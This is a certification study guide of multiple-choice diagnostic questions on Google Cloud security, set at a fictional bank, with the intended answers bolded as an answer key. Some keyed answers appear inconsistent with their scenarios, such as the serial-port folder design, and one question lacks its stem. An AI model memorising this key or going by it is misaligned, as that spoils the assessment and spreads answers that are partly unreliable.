

## Professional Cloud Security Engineer Certification Learning Path

# 01 Preparing for Your Professional Cloud Security Engineer Journey 

## Configuring Access Within a Cloud Solution Environment


### Diagnostic questions


1. Cymbal Bank recently discovered service account key misuse in one of the teams during a security audit. As a precaution, going forward you do not want any team in your organization to generate new external service account keys. You also want to restrict every new service account’s usage to its associated Project. What should you do?


- Navigate to Organizational policies in the Google Cloud Console. Select your organization. Select iam.disableServiceAccountKeyCreation. Under Policy Enforcement, select Merge with parent. Click Save. Repeat the process for iam.disableCrossProjectServiceAccountLienRemoval.


- Run the gcloud resource-manager org-policies enable-enforce command with the constraints iam.disableServiceAccountKeyCreation, and iam.disableCrossProjectServiceAccountUsage and the Project IDs you want the constraints to apply to.


- **Navigate to Organizational policies in the Google Cloud Console. Select your organization. Select iam.disableServiceAccountKeyCreation. Customize the applied to property, and set Enforcement to ‘On’. Click Save. Repeat the process for iam.disableCrossProjectServiceAccountUsage.**


- Run the gcloud resource-manager org-policies allow command with the boolean constraints iam.disableServiceAccountKeyCreation and iam.disableCrossProjectServiceAccountUsage with Organization ID.

  

2. Cymbal Bank publishes its APIs through Apigee. Cymbal Bank has recently acquired ABC Corp, which uses a third-party identity provider. You have been tasked with connecting ABC Corp’s identity provider to Apigee for single sign-on (SSO). You need to set up SSO so that Google is the service provider. You also want to monitor and log high-risk activities. Which two choices would you select to enable SSO?

- Use openssl to generate public and private keys. Store the private key in an X.509 certificate, and encrypt using AES or DES for SAML. Sign in to the Google Admin console, and under Security, upload the certificate.

- Review Network mapping results, and assign SAML profiles to required users.

- **Review Network mapping results, and assign SSO profiles to required users.**

- Use openssl to generate a private key. Store the private key in an X.509 certificate, and encrypt using AES or DES for SAML. Sign in to the Google Workspace Admin Console and upload the certificate.

- **Use openssl to generate public and private keys. Store the public key in an X.509 certificate, and encrypt using RSA or DSA for SAML. Sign in to the Google Admin console, and under Security, upload the certificate.**


3. Cymbal Bank has certain default permissions and access for their analyst, finance, and teller teams. These teams are organized into groups that have a set of role-based IAM permissions assigned to them. After a recent acquisition of a small bank, you find that the small bank directly assigns permissions to their employees in IAM. You have been tasked with applying Cymbal Bank’s resource hierarchy to the small bank. Employees will need access to Google Cloud services. What should you do?

- Reset all user permissions in the small bank’s IAM. Use the Directory API in the Google Workspace Admin SDK to create Google Groups. Use a Python script to allocate users to the groups.

- **Reset all user permissions in the small bank’s IAM. Use Cloud Identity to create dynamic groups for each of the bank’s teams. Use the dynamic groups’ metadata field for team type to allocate users to their appropriate group with a Python script.**

- Reset all user permissions in the small bank’s IAM. Use Cloud Identity to create the required Google Groups. Upgrade the Google Groups to Security Groups. Use a Python script to allocate users to the groups.

- Leave all user permissions as-is in the small bank’s IAM. Use the Directory API in the Google Workspace Admin SDK to create Google Groups. Use a Python script to allocate users to the Google Groups.


4. Cymbal Bank’s organizational hierarchy divides the Organization into departments. The Engineering Department has a ‘product team’ folder. This folder contains folders for each of the bank’s products. One folder titled “analytics” contains a Google Cloud Project that contains an App Engine deployment and a Cloud SQL instance.

- Create custom roles for all three user types at the project level. For the team lead, provide all appengine.* and cloudsql.* permissions. For the developer, provide appengine.applications.* and appengine.instances.* permissions. For the code reviewer, provide the appengine.instances.* permissions.

- Assign the basic ‘Editor’ role to the team lead. Create a custom role for the developer. Provide all appengine.* permissions to the developer. Provide the predefined ‘App Engine Code Viewer’ role to the code reviewer. Assign all these permissions at the “analytics” folder level.

- **Assign the basic ‘App Engine Admin’ and ‘Cloud SQL Admin” roles to the team lead. Assign the ‘App Engine Admin’ role to the developer. Assign the ‘App Engine Code Viewer’ role to the code reviewer. Assign all these permissions at the analytics project level.**

- Create custom roles for all three user types at the “analytics” folder level. For the team lead, provide all appengine.* and cloudsql.* permissions. For the developer, provide appengine.applications.* and appengine.instances.* permissions. For the code reviewer, provide the appengine.instances.* permissions.

  

5. You are an administrator for Cymbal Bank’s Mobile Development Team. You want to control how long different users can access the Google Cloud console, the Cloud SDK, and any applications that require user authorization for Google Cloud scopes without having to reauthenticate. More specifically, you want users with elevated privileges (project owners and billing administrators) to reauthenticate more frequently than regular users at the organization level. What should you do?

- Create a custom role for project owners and billing administrators at the organization level in the Google Cloud console. Add the reauthenticationRequired permission to this role. Assign this role to each project owner and billing administrator.

- **In the Admin console, select Google Cloud session control and set a reauthentication policy that requires reauthentication. Choose the reauthentication frequency from the drop-down list.**

- Open all Google Cloud projects that belong to Cymbal Bank’s Mobile Development team. Find each project’s Google Cloud session control setting, and configure a reauthentication policy that requires reauthentication. Choose the reauthentication frequency from the drop-down list.

- Create a custom role for project owners and billing administrators at the organization level in the Google Cloud console. Add the reauthenticationRequired permission to this role. Create a Google Group that contains all billing administrators and project owners. Apply the custom role to the group.

  

6. Cymbal Bank has a team of developers and administrators working on different sets of Google Cloud resources. The Bank’s administrators should be able to access the serial ports on Compute Engine Instances and create service accounts. Developers should only be able to access serial ports. How would you design the organization hierarchy to provide the required access?

- **Deny Serial Port Access and Service Account Creation at the organization level. Create a ‘dev’ folder and set enforced: true for constraints/compute.disableSerialPortAccess and enforced: true for constraints/iam.disableServiceAccountCreation. Create a new ‘admin’ folder inside the ‘dev’ folder, and set enforced: false for constraints/iam.disableServiceAccountCreation. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.**

- Deny Serial Port Access and Service Account Creation at the organization level. Create a ‘dev’ folder and set enforced: false for constraints/compute.disableSerialPortAccess. Create a new ‘admin’ folder inside the ‘dev’ folder, and set enforced: false for constraints/iam.disableServiceAccountCreation. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.

- Deny Serial Port Access and Service Account Creation at the Organization level. Create an ‘admin’ folder and set enforced: false for constraints/compute.disableSerialPortAccess. Create a new ‘dev’ folder inside the ‘admin’ folder, and set enforced: false for constraints/iam.disableServiceAccountCreation. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.

- Allow Serial Port Access and Service Account Creation at the organization level. Create a ‘dev’ folder and set enforced: true for constraints/iam.disableServiceAccountCreation. Create another ‘admin’ folder that inherits from the parent inside the organization node. Give developers access to the ‘dev’ folder, and administrators access to the ‘admin’ folder.

  

7. Cymbal Bank has acquired a non-banking financial company (NBFC). This NBFC uses Active Directory as their central directory on an on-premises Windows Server. You have been tasked with migrating all the NBFC users and employee information to Cloud Identity. What should you do?

- **Use Cloud VPN to connect the on-premises network to your Google Cloud environment. Select an on-premises domain-joined Windows Server. On the domain-joined Windows Server, run Configuration Manager and Google Cloud Directory Sync. Use Cloud VPN’s encrypted channel to transfer users from the on-premises Active Directory to Cloud Identity.**

- Run Configuration Manager on a Compute Engine instance. Copy the resulting configuration file from this machine onto a new Compute Engine instance to keep the production environment separate from the staging environment. Leave the channel unencrypted because you are in a secure Google Cloud environment. Deploy Google Cloud Directory Sync on this new instance. Connect to the on-premises Windows Server environment from the new instance, and migrate users to Cloud Identity.

- Run Microsoft System Center Configuration Manager (SCCM) on a Compute Engine instance. Leave the channel unencrypted because you are in a secure Google Cloud environment. Deploy Google Cloud Directory Sync on the Compute Engine instance. Connect to the on-premises Windows Server environment from the instance, and migrate users to Cloud Identity.

- Select an on-premises domain-joined Windows Server. Run Configuration Manager on the domain-joined Windows Server, and copy the resulting configuration file to a Compute Engine instance. Run Google Cloud Directory Sync on the Compute Engine instance over the internet, and use Cloud VPN to sync users from the on-premises Active Directory to Cloud Identity.

  

8. Cymbal Bank’s organizational hierarchy divides the Organization into departments. The Engineering Department has a ‘product team’ folder. This folder contains folders for each of the bank’s products. Each product folder contains one Google Cloud Project, but more may be added. Each project contains an App Engine deployment. Cymbal Bank has hired a new technical product manager and a new web developer. The technical product manager must be able to interact with and manage all services in projects that roll up to the Engineering Department folder. The web developer needs read-only access to App Engine configurations and settings for a specific product. How should you provision the new employees’ roles into your hierarchy following principles of least privilege?

- Assign the Project Owner role in each individual project to the technical product manager. Assign the App Engine Deployer role in each individual project to the web developer.

- Assign the Project Editor role at the Engineering Department folder level to the technical product manager. Create a Custom Role in the product folder that the web developer needs access to. Add the appengine.versions.create and appengine.versions.delete permissions to that role, and assign it to the web developer.

- **Assign the Project Editor role at the Engineering Department folder level to the technical product manager. Assign the App Engine Deployer role at the specific product’s folder level to the web developer.**

- Assign the Project Editor role in each individual project to the technical product manager. Assign the Project Editor role in each individual project to the web developer.


9. Cymbal Bank is divided into separate departments. Each department is divided into teams. Each team works on a distinct product that requires Google Cloud resources for development. How would you design a Google Cloud organization hierarchy to best match Cymbal Bank’s organization structure and needs?

- Create an Organization node. Under the Organization node, create Department folders. Under each Department, create Product folders. Add Projects to the Product folders.

- Create an Organization node. Under the Organization node, create Department folders. Under each Department, create Product folders. Under each Product, create Teams folders. In the Teams folder, add Projects.

- **Create an Organization node. Under the Organization node, create Department folders. Under each Department, create a Teams folder. Under each Team, create Product folders. Add Projects to the Product folders.**

- Create an Organization node. Under the Organization node, create Department folders. Under each Department, create Teams folders. Add Projects to the Teams folders.

  

10. Cymbal Bank leverages Google Cloud storage services, an on-premises Apache Spark Cluster, and a web application hosted on a third-party cloud. The Spark cluster and web application require limited access to Cloud Storage buckets and a Cloud SQL instance for only a few hours per day. You have been tasked with sharing credentials while minimizing the risk that the credentials will be compromised. What should you do?

- **Create a service account with appropriate permissions. Have the Spark Cluster and the web application authenticate as delegated requests, and share the short-lived service account credential as a JWT.**

- Create a service account with appropriate permissions. Authenticate the Spark Cluster and the web application as direct requests and share the service account key.

- Create a service account with appropriate permissions. Authenticate the Spark Cluster and the web application as a delegated request, and share the service account key.

- Create a service account with appropriate permissions. Have the Spark Cluster and the web application authenticate as a direct request, and share the short-lived service account credentials as XML tokens.

### Knowledge Check


1. Which tool will Cymbal Bank use to synchronize their identities from their on-premise identity management system to Google Cloud?

- Service Accounts

- Cloud Identity

- Active Directory

- **Google Cloud Directory Sync**

  

2. Which feature of Google Cloud will Cymbal Bank use to control the source locations and times that authorized identities will be able to access resources?

- **IAM Conditions**

- Identity-aware Proxy

- Service Accounts

- IAM Roles


## Securing Communications and Establishing Boundary Protection

### Diagnostic questions

1. Cymbal Bank is releasing a new loan management application using a Compute Engine managed instance group. External users will connect to the application using a domain name or IP address protected with TLS 1.2. A load balancer already hosts this application and preserves the source IP address. You are tasked with setting up the SSL certificate for this load balancer. What should you do?

- Create a Google-managed SSL certificate. Attach a global dynamic external IP address to the internal Application Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create an HTTPS proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.

- Import a self-managed SSL certificate. Attach a global static external IP address to the external proxy Network Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create a TCP proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.

- Import a self-managed SSL certificate. Attach a global static external IP address to the external proxy Network Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create an SSL proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.

- **Create a Google-managed SSL certificate. Attach a global static external IP address to the global external Application Load Balancer. Validate that an existing URL map will route the incoming service to your managed instance group backend. Load your certificate and create an HTTPS proxy routing to your URL map. Create a global forwarding rule that routes incoming requests to the proxy.**

2. You have recently joined Cymbal Bank as a cloud engineer. You created a custom VPC network, selecting to use the automatic subnet creation mode and nothing else. The default network still exists in your project. You create a new Linux VM instance and select the custom VPC as the network interface. You try to SSH into your instance, but you are getting a “connection failed” error. What answer best explains why you cannot SSH into the instance?

- **You did not set up any firewall rules on your custom VPC network. While the default VPC comes with a predefined firewall rule that allows SSH traffic, these need to be added to any custom VPCs.**

- You should have used the default network when setting up your instance. While custom networks support instance creation, they should only be used for internal communication.

- You should have deleted the default network. When you have multiple VPCs in your project, Compute Engine can’t allow you to connect because overlapping IP ranges prevent the API from establishing a root connection.

- You should have used custom subnet creation mode. Since the default VPC still exists, automatic mode created subnets in the same regions, which led to overlapping IP addresses.

3. Cymbal Bank has published an API that internal teams will use through the Application Load Balancer. You need to limit the API usage to 200 calls every hour. Any exceeding usage should inform the users that servers are busy. Which gcloud command would you run to throttle the load balancing for the given specification?

- gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges="" --action=rate-based-ban --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=3600 --conform-action=allow --exceed-action=deny-500 --enforce-on-key=IP

- gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges=source-range --action=throttle --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=60 --conform-action=deny --exceed-action=deny-404 --enforce-on-key=HTTP-HEADER

- gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges=source-range --action=rate-based-ban --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=3600 --conform-action=deny --exceed-action=deny-403 --enforce-on-key=HTTP-HEADER

- **gcloud compute security-policies rules create priority --security-policy sec-policy --src-ip-ranges=source-range --action=throttle --rate-limit-threshold-count=200 --rate-limit-threshold-interval-sec=3600 --conform-action=allow --exceed-action=deny-429 --enforce-on-key=HTTP-HEADER**

4. An external audit agency needs to perform a one-time review of Cymbal Bank’s Google Cloud usage. The auditors should be able to access a Default VPC containing BigQuery, Cloud Storage, and Compute Engine instances where all the usage information is stored. You have been tasked with enabling the access from their on-premises environment, which already has a configured VPN. What should you do?

- Use Partner Interconnect. Configure an encrypted tunnel in the auditor's on-premises environment. Use Cloud DNS to create DNS zones and A records for private.googleapis.com.

- **Use a Cloud VPN tunnel. Use Cloud DNS to create DNS zones and records for *.googleapis.com. Set up on-premises routing with Cloud Router. Use Cloud Router custom route advertisements to announce routes for Google Cloud destinations.**

- Use a Cloud VPN tunnel. Use your DNS provider to create DNS zones and records for private.googleapis.com. Connect the DNS provider to your on-premises network. Broadcast the request from the on-premises environment. Use a software-defined firewall to manage incoming and outgoing requests.

- Use Dedicated Interconnect. Configure a VLAN in the auditor's on-premises environment. Use Cloud DNS to create DNS zones and records for restricted.googleapis.com and private.googleapis.com. Set up on-premises routing with Cloud Router. Add custom static routes in the VPC to connect individually to BigQuery, Cloud Storage, and Compute Engine instances.

5. Cymbal Bank’s Customer Details API runs on a Compute Engine instance with only an internal IP address. Cymbal Bank’s new branch is co-located outside the Google Cloud points-of-presence (PoPs) and requires a low-latency way for its on-premises apps to consume the API without exposing the requests to the public internet. Which solution would you recommend?

- Use Carrier Peering. Use a service provider to access their enterprise grade infrastructure to connect to the Google Cloud environment.

- **Use Partner Interconnect. Use a service provider to access their enterprise grade infrastructure to connect to the Google Cloud environment.**

- Use a Content Delivery Network (CDN). Establish direct peering with one of Google’s nearby edge-enabled PoPs.

- Use Dedicated Interconnect. Establish direct peering with one of Google’s nearby edge-enabled PoPs.

6. Your organization has a website running on Compute Engine. This instance only has a private IP address. You need to provide SSH access to an on-premises developer who will debug the website from the authorized on-premises location only. How do you enable this?

- Use the default VPC’s firewall. Open port 22 for TCP protocol using the Google Cloud Console.

- Use SOCKS proxy over SSH. Set up an SSH tunnel to one of the hosts in the network. Create the SOCKS proxy on the client side.

- Set up Cloud VPN. Set up an unencrypted tunnel to one of the hosts in the network. Create outbound or egress firewall rules. Use the private IP address to log in using a gcloud ssh command.

- **Use Identity-Aware Proxy (IAP). Set up IAP TCP forwarding by creating ingress firewall rules on port 22 for TCP using the gcloud command.**

7. Cymbal Bank has designed an application to detect credit card fraud that will analyze sensitive information. The application that’s running on a Compute Engine instance is hosted in a new subnet on an existing VPC. Multiple teams who have access to other VMs in the same VPC must access the VM. You want to configure the access so that unauthorized VMs or users from the internet can’t access the fraud detection VM. What should you do?

- Use target filtering. Create a tag called ‘app’, and assign the tag to both the source and the target. Create a firewall rule to allow all ingress communication on this tag.

- **Use subnet isolation. Create a service account for the fraud detection engine. Create service accounts for each of the teams’ Compute Engine instances that will access the engine. Add a firewall rule using: gcloud compute firewall-rules create ACCESS_FRAUD_ENGINE --network**

- Use target filtering. Create two tags called ‘app’ and ‘data’. Assign the ‘app’ tag to the Compute Engine instance hosting the Fraud Detection App (source), and assign the ‘data’ tag to the other Compute Engine instances (target). Create a firewall rule to allow all ingress communication on this tag.

- Use subnet isolation. Create a service account for the fraud detection VM. Create one service account for all the teams’ Compute Engine instances that will access the fraud detection VM. Create a new firewall rule using:gcloud compute firewall-rules create ACCESS_FRAUD_ENGINE --network

8. Cymbal Bank needs to connect its employee MongoDB database to a new human resources web application on the same network. Both the database and the application are autoscaled with the help of Instance templates. As the Security Administrator and Project Editor, you have been tasked with allowing the application to read port 27017 on the database. What should you do?

- **Create service accounts for the application and database. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --allow TCP:27017 --source-service-accounts web-application-service-account --target-service-accounts database-service-account**

- Create a user account for the database admin and a service account for the application. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --allow TCP:27017 --source-service-accounts web-application-service-account --target-service-accounts database-admin-user-account

- Create user accounts for the application and database. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --deny UDP:27017 --source-service-accounts web-application-user-account --target-service-accounts database-admin-user-account

- Create service accounts for the application and database. Create a firewall rule using:gcloud compute firewall-rules create ALLOW_MONGO_DB --network network-name --allow ICMP:27017 --source-service-accounts web-application-service-account --target-service-accounts database-service-account

9. The data from Cymbal Bank’s loan applicants resides in a shared VPC. A credit analysis team uses a CRM tool hosted in the App Engine standard environment. You need to provide credit analysts with access to this data. You want the charges to be incurred by the credit analysis team. What should you do?

- Add egress firewall rules to allow SSH and/or RDP ports for the App Engine standard environment in the Shared VPC network. Create a client-side connector in the Service Project using the IP range of the target VPC. Verify that the connector is in a READY state. Create an egress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.

- Add ingress firewall rules to allow NAT and Health Check ranges for App Engine standard environment in the Shared VPC network. Create a server-side connector in the Host Project using the Shared VPC Project ID. Verify that the connector is in a READY state. Create an ingress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.

- Add egress firewall rules to allow TCP and UDP ports for the App Engine standard environment in the Shared VPC network. Create either a client-side connector in the Service Project or a server-side connector in the Host Project using the IP Range or Project ID of the target VPC. Verify that the connector is in a READY state. Create an egress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.

- **Add ingress firewall rules to allow NAT and Health Check ranges for the App Engine standard environment in the Shared VPC network. Create a client-side connector in the Service Project using the Shared VPC Project ID. Verify that the connector is in a READY state. Create an ingress rule on the Shared VPC network to allow the connector using Network Tags or IP ranges.**

10. An ecommerce portal uses Google Kubernetes Engine to deploy its recommendation engine in Docker containers. This cluster instance does not have an external IP address. You need to provide internet access to the pods in the Kubernetes cluster. What configuration would you add?

- **Cloud NAT gateway, subnet primary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster**

- Cloud DNS, subnet primary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster

- Nginx load balancer, subnet secondary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster

- Cloud VPN, subnet secondary IP address range for nodes, and subnet secondary IP address range for pods and services in the cluster


### Knowledge Check

1. Which tool will Cymbal Bank use to enforce authentication and authorization for services deployed to Google Cloud?

- Firewall rules

- Google Cloud Armor

- **Identity-Aware proxy**

- Application Load Balancer

2. How will Cymbal Bank enable resources with only internal IP addresses to make requests to the Internet?

- Google private access

- Dedicated Interconnect

- **Cloud NAT**

- Shared VPC


## Ensuring Data Protection

### Diagnostic questions

1. Cymbal Bank has hired a data analyst team to analyze scanned copies of loan applications. Because this is an external team, Cymbal Bank does not want to share the name, gender, phone number, or credit card numbers listed in the scanned copies. You have been tasked with hiding this PII information while minimizing latency. What should you do?

- **Use the Cloud Data Loss Prevention (DLP) API to make redact image requests. Provide your project ID, built-in infoTypes, and the scanned copies when you make the requests.**

- Use the Cloud Vision API to perform optical code recognition (OCR) from scanned images. Redact the text using the Cloud Data Loss Prevention (DLP) API with regular expressions.

- Use the Cloud Vision API to perform text extraction from scanned images. Redact the text using the Cloud Natural Language API with regular expressions.

- Use the Cloud Vision API to perform optical code recognition (OCR) from scanned images. Redact the text using the Cloud Natural Language API with regular expressions.

2. Cymbal Bank uses Google Kubernetes Engine (GKE) to deploy its Docker containers. You want to encrypt the boot disk for a cluster running a custom image so that the key rotation is controlled by the Bank. GKE clusters will also generate up to 1024 randomized characters that will be used with the keys with Docker containers. What steps would you take to apply the encryption settings with a dedicated hardware security layer?

- Create a new key ring using Cloud Key Management Service. Extract this key to a certificate. Use the Google Cloud Console to update the Kubernetes configuration. Validate using MAC digital signatures, and use a startup script to generate random bytes.

- Create a new key ring using Cloud Key Management Service. Extract this key to a certificate. Use the kubectl command to update the Kubernetes configuration. Validate using MAC digital signatures, and use a startup script to generate random bytes.

- **Create a new GKE cluster with customer-managed encryption and HSM enabled. Deploy the containers to this cluster. Delete the old GKE cluster. Use Cloud HSM to generate random bytes and provide an additional layer of security.**

- In the Google Cloud console, navigate to Google Kubernetes Engine. Select your cluster and the boot node inside the cluster. Enable customer-managed encryption. Use Cloud HSM to generate random bytes and provide an additional layer of security.

3. Cymbal Bank stores customer information in a BigQuery table called ‘Information,’ which belongs to the dataset ‘Customers.’ Various departments of Cymbal Bank, including loan, credit card, and trading, access the information table. Although the data source remains the same, each department needs to read and analyze separate customers and customer-attributes. You want a cost-effective way to configure departmental access to BigQuery to provide optimal performance. What should you do?

- Create separate datasets for each department. Create authorized functions in each dataset to perform required aggregations. Write transformed data to new tables for each department separately. Provide the bigquery.dataViewer role to each department’s required users.

- Create an authorized dataset in BigQuery’s Explorer panel. Write Customers’ table metadata into a JSON file, and edit the file to add each department’s Project ID and Dataset ID. Provide the bigquery.user role to each department’s required users.

- Secure data with classification. Open the Data Catalog Taxonomies page in the Google Cloud Console. Create policy tags for required columns and rows. Provide the bigquery.user role to each department’s required users. Provide policy tags access to each department separately.

- **Create separate datasets for each department. Create views for each dataset separately. Authorize these views to access the source dataset. Share the datasets with departments. Provide the bigquery.dataViewer role to each department’s required users.**

4. Cymbal Bank calculates employee incentives on a monthly basis for the sales department and on a quarterly basis for the marketing department. The incentives are released with the next month’s salary. Employee’s performance documents are stored as spreadsheets, which are retained for at least one year for audit. You want to configure the most cost-effective storage for this scenario. What should you do?

- Import the spreadsheets into Cloud Storage and create NoSQL tables. Use App Engine cron jobs to run monthly for Sales and quarterly for Marketing. Use a separate job to delete the data after 1 year.

- **Upload the spreadsheets to Cloud Storage. Select the Nearline storage class for the sales department and Coldline storage for the marketing department. Use object lifecycle management rules to set the storage class to Archival after 365 days. Process the data on BigQuery using jobs that run monthly for Sales and quarterly for Marketing.**

- Import the spreadsheets to Cloud SQL, and create separate tables for Sales and Marketing. For Table Expiration, set 365 days for both tables. Use stored procedures to calculate incentives. Use App Engine cron jobs to run stored procedures monthly for Sales and quarterly for Marketing.

- Import the spreadsheets to BigQuery, and create separate tables for Sales and Marketing. Set table expiry rules to 365 days for both tables. Create jobs scheduled to run every quarter for Marketing and every month for Sales.

5. Cymbal Bank has a Cloud SQL instance that must be shared with an external agency. The agency’s developers will be assigned roles and permissions through a Google Group in Identity and Access Management (IAM). The external agency is on an annual contract and will require a connection string, username, and password to connect to the database. How would you configure the group’s access?

- **Use Secret Manager. Use the duration attribute to set the expiry period to one year. Add the secretmanager.secretAccessor role for the group that contains external developers.**

- Use Secret Manager. Use the resource attribute to set a key-value pair with key as duration and values as expiry period one year from now. Add secretmanager.viewer role for the group that contains external developers.

- Use Secret Manager for the connection string and username, and use Cloud Key Management Service for the password. Use tags to set the expiry period to the timestamp one year from now. Add secretmanager.secretVersionManager and secretmanager.secretAccessor roles for the group that contains external developers.

- Use Cloud Key Management Service. Use the destination IP address and Port attributes to provide access for developers at the external agency. Remove the IAM access after one year and rotate the shared keys. Add cloudkms.cryptoKeyEncryptorDecryptor role for the group that contains the external developers.

6. Cymbal Bank needs to migrate existing loan processing applications to Google Cloud. These applications transform confidential financial information. All the data should be encrypted at all stages, including sharing between sockets and RAM. An integrity test should also be performed every time these instances boot. You need to use Cymbal Bank’s encryption keys to configure the Compute Engine instances. What should you do?

- **Create a Confidential VM instance with Customer-Supplied Encryption Keys. In Cloud Logging, collect all logs for sevLaunchAttestationReportEvent.**

- Create a Confidential VM instance with Customer-Managed Encryption Keys. In Cloud Logging, collect all logs for earlyBootReportEvent.

- Create a Shielded VM instance with Customer-Managed Encryption Keys. In Cloud Logging, collect all logs for sevLaunchAttestationReportEvent.

- Create a Shielded VM instance with Customer-Supplied Encryption Keys. In Cloud Logging, collect all logs for earlyBootReportEvent.

7. Cymbal Bank needs to statistically predict the days customers delay the payments for loan repayments and credit card repayments. Cymbal Bank does not want to share the exact dates a customer has defaulted or made a payment with data analysts. Additionally, you need to hide the customer name and the customer type, which could be corporate or retail. How do you provide the appropriate information to the data analysts?

- Generalize all dates to year and month with bucketing. Use the built-in infoType for customer name. Use a custom infoType for customer type with a custom dictionary.

- **Generalize all dates to year and month with date shifting. Use a predefined infoType for customer name. Use a custom infoType for customer type with a custom dictionary.**

- Generalize all dates to year and month with date shifting. Use a predefined infoType for customer name. Use a custom infoType for customer type with regular expression.

- Generalize all dates to year and month with bucketing. Use the built-in infoType for customer name. Use a custom infoType for customer type with regular expression.

8. You are tasked with developing an AI system on Google Cloud for a telecommunications business. This AI system will conduct sentiment analysis on conversations agents have with customers, and provide conversational recommendations to improve customer satisfaction in the future. What AI/ML-specific security controls do you need to plan for when developing this system?

- **AI systems are more interconnected than non-AI systems. Prepare for new attack vectors, as attackers can exploit vulnerabilities in one system to attack another.**

- Leverage an AI model-specific threat detection scanner. Threats between AI systems and non-AI systems have very little in common.

- Deploy your AI solution using managed instance groups (MIGs). These have baked in security controls specific to running AI workloads.

- Select Google Cloud AI services that leverage a PaaS model. These are the only ones that can guarantee a secure-by-design foundation.

9. You're building a machine learning model on Google Cloud. You're choosing between two options: managing the infrastructure yourself (IaaS) or using Google's managed services (PaaS). To ensure the best security posture for both the model and its data, which TWO factors should you prioritize when defining security requirements for each hosting option?

- **Granular access controls and permissions**

- Compliance with internal security policies

- **Data location and residency restrictions**

- Network traffic inspection and intrusion detection

- Physical server hardening and security patches

10. You are building an AI model on Google Cloud to analyze customer data and predict purchase behavior. This model will have access to sensitive information like purchase history and demographics. To protect this data and prevent misuse of the model, what THREE security controls are most important to implement?

- Store all model training data in BigQuery with public access for transparency.

- Configure IAM roles to grant full access to the model for all Google Cloud users.

- **Monitor the model's performance for anomalies and biases, then manually intervene if needed.**

- **Enable Google Cloud Armor on your deployed model to block malicious requests.**

- **Deploy the model in a region with the highest data security standards.**


### Knowledge Check

1. What feature will allow Cymbal Bank to delete or change the storage class of objects in Cloud Storage buckets?                  

- Rotation periods              
- Retention policies              
- **Lifecycle management rules**              
-  Object versioning

2. Which tool will Cymbal Bank use to scan for, detect, and optionally transform sensitive data to prevent exposure?

- **Sensitive Data Protection**
- Secret Manager
- Google Cloud Armor
- VPC service controls


## Managing Operations

### Diagnostic questions

1. The loan application from Cymbal Bank’s lending department collects credit reports that contain credit payment information from customers. According to bank policy, the PDF reports are stored for six months in Cloud Storage, and access logs for the reports are stored for three years. You need to configure a cost-effective storage solution for the access logs. What should you do?

- Set up a logging export dataset in BigQuery to collect data from Cloud Logging and the Security Command Center. Create table expiry rules to delete logs after three years.

- **Set up a logging export bucket in Cloud Storage to collect data from Cloud Audit Logs. Configure object lifecycle management rules to delete logs after three years.**

- Set up a logging export dataset in BigQuery to collect data from Cloud Logging and Cloud Monitoring. Create table expiry rules to delete logs after three years.

- Set up a logging export bucket in Cloud Storage to collect data from the Security Command Center. Configure object lifecycle management rules to delete logs after three years.

2. Cymbal Bank uses Docker containers to interact with APIs for its personal banking application. These APIs are under PCI-DSS compliance. The Kubernetes environment running the containers will not have internet access to download required packages. How would you automate the pipeline that is building these containers?

- Create a Dockerfile with container definition and cloudbuild.yaml file. Use Cloud Build to build the image from Dockerfile. Upload the built image to a Google Container registry and Dockerfile to a Git repository. In the cloudbuild.yaml template, include attributes to tag the Git repository path with a Google Kubernetes Engine cluster. Create a trigger in Cloud Build to automate the deployment using the Git repository.

